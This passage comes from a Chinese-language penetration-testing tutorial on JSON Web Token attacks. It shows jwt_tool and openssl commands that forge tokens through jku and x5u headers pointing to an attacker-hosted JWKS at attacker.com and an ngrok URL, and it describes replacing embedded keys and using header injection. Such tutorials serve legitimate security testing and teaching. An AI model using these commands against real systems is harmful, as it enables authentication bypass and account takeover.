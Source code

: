该参数指向一组 JSON 编码格式的公钥(JWKS 中的属性 **n** 和 **e** ),在工具安装后第一次运行时,“jwt_tool”自动为该攻击生成名为*“jwt tool _ custom _ JWKS . JSON”*的 JWKS 文件。

命令:

```
python3 jwt_tool.py <JWT> -X s -ju "https://attacker.com/jwttool_custom_jwks.json"
```

*   **X.509 URL (x5u):**

该参数指向 X.509 公钥证书或证书链(JWKS 中的属性 **x5c** )，您可以使用相应的私钥生成该证书，如下所示:

```
openssl req -newkey rsa:2048 -nodes -keyout private.pem -x509 -days 365 -out attacker.crt -subj "/C=AU/L=Brisbane/O=CompanyName/CN=pentester"
```

这里使用 OpenSSL，在“attacker.crt”中创建证书，现在可以将它嵌入到带有“x5c”属性的 JWKS 文件中，并且可以像这样利用它:

命令:

```
python3 jwt_tool.py <JWT> -S rs256 -pr private.pem -I -hc x5u -hv "[https://attacker.com/custom_x5u.json](http://victim.com@ccbfd9f5afa7.ngrok.io/x5c.json)"
```

> ***注:*** 免费托管您的文件，您可以使用[***【REPL】。它***](https://repl.it) *😃*

*   **嵌入式公钥:**

如果服务器通过 **"jwk"** (JSON Web Key)或 **"x5c"** (X.509 证书链)参数将公钥直接嵌入令牌，那么尝试用您自己的公钥替换它们，并用相应的私钥对令牌进行签名。

## 3. [HTTP 响应头注入](https://portswigger.net/kb/issues/00200200_http-response-header-injection)

假设如果应用程序在“jku”或“x5c”参数中限制任何操作的 URL，那么我们可以使用响应头注入漏洞在 HTTP 响应中添加内联 jwk，并强制应用程序使用它进行签名验证。

为了演示这种攻击，我写了一个 Python 脚本，可以在这里找到[。](https://gist.github.com/imparabl3/efcf4a991244b9f8f99ac39a7c8cfe6f)

## 4.其他问题

JSON Web 令牌是另一种形式的用户输入，所有的参数都必须进行适当的清理，否则可能会导致 LFI、RCE 等漏洞。但是这并不意味着应用程序仍然是安全的。

因为如果一个攻击者不能伪造 jwt，那么他就会试图用 XSS，CSRF，CORS 的错误配置来窃取它们。更多信息可在[这里](https://github.com/ticarpi/jwt_tool/wiki/Stealing-JWTs)找到。

# 结束语

请只在法律允许的系统上测试这些攻击，否则你可能会坐牢😎

玩笑归玩笑，如果你觉得这篇文章有帮助，请给我你的反馈，你可以在 Twitter @nehatarick 上找到我

祝圣灵降临节快乐！